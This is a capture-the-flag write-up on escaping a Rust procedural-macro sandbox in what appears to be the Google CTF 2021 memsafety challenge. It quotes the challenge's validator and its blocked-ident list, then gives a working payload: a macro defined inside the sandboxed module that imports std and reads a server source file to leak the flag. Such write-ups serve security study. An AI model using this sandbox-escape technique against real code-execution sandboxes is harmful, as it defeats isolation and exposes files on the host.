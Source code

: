 
# Overview

A server written in rust, which creates and runs Services (a Service there is a trait, a traits are similar to interfaces in other languages).
There are two Services, one is implemented in `user_1` module which is predefined and the other one (`user_0`) is supposed to be implemented by the user.

A Python code wraps it all - receives the code of `user_0`, build the program and executes it. 

Pretty simple, but how's it related to the flag? It is actually placed as a constant string in the predefined module:

```rust
#![no_std]
use proc_sandbox::sandbox;

#[sandbox]
pub mod user {
    static FLAG: &'static str = "CTF{fake flag}";
    use prelude::{mem::ManuallyDrop, Service, Box, String};
    pub struct State(ManuallyDrop<String>);
    impl State {
        pub fn new() -> Box<dyn Service> {
            Box::new(State(ManuallyDrop::new(String::from(FLAG))))
        }
    }
    impl Service for State {
       fn handle(&mut self, _: &str) {}
    }
}
```

I'm not very experienced in rust but I've seen some code and the use of [ManuallyDrop](https://doc.rust-lang.org/std/mem/struct.ManuallyDrop.html) was not familliar to me. As it wraps the flag, it is worth mentioning that the object is a wrapper can be used to inhibit compiler from automatically calling the destructor of the wrapped struct.
So it means the flag stays in memory? Interesting

And there is a sandbox. Actually in my point of view there were 3 "layers" of limitations, and the sandbox is one of them:

### Python validation
The user's input is being validated before the program is run (but after compiling). That's the function:

```python
def check_user_input():
    socket_print("Validating user input before compiling...")
    result = subprocess.run("/home/user/rustup/toolchains/nightly-2020-10-08-x86_64-unknown-linux-gnu/bin/rustc user-0/src/lib.rs -Zast-json=yes",
                            cwd="/home/user/sources", shell=True, timeout=150, capture_output=True)
    try:
        ast = json.loads(result.stdout)
        if len(ast["module"]["items"]) != 5:
            socket_print("Module escaping detected, aborting.")
            sys.exit(1)

    except json.JSONDecodeError:
        socket_print(
            "Something went wrong during validation -- is your input malformed?")
        sys.exit(1)

```

It tries to check module escaping using a feature of the rust compiler (exporting the AST).

**What actually caught my mind is the old version of the toolchain - should I exploit an old bug?**

### The sandbox 

The sandbox is implemented as a [Procedural Macro](https://doc.rust-lang.org/reference/procedural-macros.html) (more specific - attribute macro), which allow running code that consumes and produces rust syntax.

The `Sandbox` goes over the user-modules AST and checks for blocked operations:
* The `unsafe` expression.
* Linking to external symbol.
* `extern` declaration.
* Blocked idents (idents are keywords or illegal phrases): `env`, `file`, `include`, `include_bytes`,`include_str`, `option_env`, `std`

### Overriding `prelude`

In rust, [prelude](https://doc.rust-lang.org/std/prelude/index.html) is a list of things that rust automatically imports to every program, particularly for convenience.

It is possible to define your own prelude and that what happens in this challenge, so it goes hand to hand with the sandbox.

The `Service` trait is also defined in the same file.

```rust
pub use std::io::Read;
pub use std::io::Result as IoResult;
pub use std::vec::Vec;
pub use std::println as log;
pub use std::string::String;
pub use std::str;
pub use std::mem;
pub use std::boxed::Box;

pub trait Service {
    fn handle(&mut self, query: &str);
}
```

# My (unintended) way to the solution

There were some "hints" that led me to think I should get the flag by exploiting a bug that existed in that old version of rust and it should likely be related to memory issues - `DropManually` that keeps the flag in memory, the old toolchain and the name of the challenge.

But I had another idea.

As mentioned before, the sandbox is implemented as a Procedural Macro, which made me think - In what order the build-time code is run?  **What if I define a macro inside the module and call it later?**

The answer is the macro defined inside the module actually processed later and as a result can bypass the sandbox limitations :)

Now I need to get the flag and since I know the absolute path of the project in the server (the path exists in their Python code), the easiest way for me was just reading the source code file from the disk.
In order to read from disk you need to use `std` library, and although the sandbox is not an issue anymore, the library cannot be imported because of the prelude overriding.

But as a result of defeating the sandbox, the predule is not an issue anymore - I can use `extern crate`.
`extern crate` declaration specifies a dependency on an external crate, [and is likely no longer needed in most cases now](https://doc.rust-lang.org/edition-guide/rust-2018/module-system/path-clarity.html) as `use` is more convenient.

[It is possible to use `extern crate` to add symbols to the `extern prelude`](https://doc.rust-lang.org/reference/names/preludes.html#extern-prelude)

Now that no problems left to be solved, the payload:
```rust
    use prelude::{Service, Box, String, log};

    macro_rules! get_the_flag {
        ($e:expr) => {
            extern crate std;
            use std::fs;
            let all = fs::read_to_string("/home/user/sources/user-1/src/lib.rs").expect("whatever");
            log!("{}",all);
        };
    }

    pub struct State;
    impl State {
        pub fn new() -> Box<dyn Service> {
            get_the_flag!("");
            Box::new(Self)
        }
    }

    impl Service for State {
       fn handle(&mut self, _: &str) {
       }
    }
```

And the flag - `CTF{s4ndb0x1n9_s0urc3_1s_h4rd_ev3n_1n_rus7}`

In fact it turned out the intended solution is actually as "hinted" , as seen in [the original writeup](https://github.com/google/google-ctf/tree/master/2021/quals/pwn-memsafety)
